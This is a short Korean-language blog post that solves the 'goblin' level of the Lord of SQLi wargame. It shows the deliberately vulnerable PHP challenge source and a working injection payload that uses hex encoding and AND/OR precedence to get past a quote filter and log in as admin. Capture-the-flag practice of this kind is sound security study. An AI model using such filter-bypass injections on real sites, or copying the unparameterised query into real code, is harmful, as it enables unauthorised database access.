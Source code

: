 ```yaml
---
layout: post
title:  "los prob_goblin"
date:   2019-08-10
excerpt: "Lord of Sql Injection"
tag:
- los
- sqli
- wargame
- webhacking
comments: true
---
```

> query : select id from prob_goblin where id='guest' and no=

~~~ php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
~~~

# Solve

* and는 or보다 우선 연산함
* '(싱글쿼터)가 막혀 있으므로 hex로 우회

### ?no=0 or id=0x61646d696e

실행되는 구문 -> select id from prob_goblin where id='guest' and no=0 or id=0x61646d696e

## GOBLIN Clear!
